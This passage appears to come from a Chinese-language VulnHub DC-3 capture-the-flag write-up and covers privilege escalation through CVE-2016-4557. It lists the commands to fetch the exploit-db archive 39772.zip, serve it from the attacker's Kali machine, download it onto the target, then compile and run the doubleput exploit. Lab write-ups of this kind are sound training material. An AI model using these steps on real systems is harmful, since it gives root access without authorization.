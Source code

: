 存在提权漏洞 CVE-2016-4557

找个 EXP 用用
```bash
apt install libfuse-dev
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

EXP 传给靶机,kali 启个 web
```
python -m SimpleHTTPServer 80
```

靶机上下载,并运行
```
wget 192.168.141.134/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/19.png)

